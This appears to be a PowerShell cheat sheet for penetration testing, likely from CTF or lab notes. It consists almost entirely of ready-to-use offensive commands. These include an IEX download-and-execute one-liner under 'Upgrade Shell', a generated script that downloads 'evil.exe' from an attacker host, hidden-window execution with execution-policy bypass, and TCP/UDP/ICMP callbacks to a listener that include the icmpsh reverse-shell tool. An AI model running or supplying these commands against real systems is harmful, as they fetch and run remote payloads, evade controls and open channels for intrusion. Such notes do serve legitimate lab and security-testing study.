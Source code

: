 [Sherlock for Powershell](https://github.com/rasta-mouse/Sherlock)

> ###### Upgrade Shell

C:\> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.1/file.txt')"



> ###### wget

echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$ATTACKER/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1    
echo $webclient.DownloadFile($url,$file) >> wget.ps1

C:\> powershell.exe -ExecutionPolicy Bypass ‐NoLogo  ‐NonInteractive  ‐NoProfile ‐File wget.ps1



> ###### Execute ps1

C:\> powershell -exec bypass -windowstyle hidden -nop -file c:\path\to\file.ps1



> ###### Stream contents of file

C:\> Get-Item /path/to/file.zip -Stream *



> ###### Get permissions of directory/file

C:\> Get-ACL C:\path\to\file\or\directory



> ###### Packet testing

# TCP
# Setup TCP Listener ie: netcat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.TcpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie")$client.Send($packet, $packet.Length);$client.Close();'

# UDP
# Setup UDP Listener ie: socat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.UdpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send($packet, $packet.Length);$client.Close();'

# ICMP
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET
C:\> powershell -Command '$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $True;$packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send("10.10.14.42", 500, $packet, $options);'
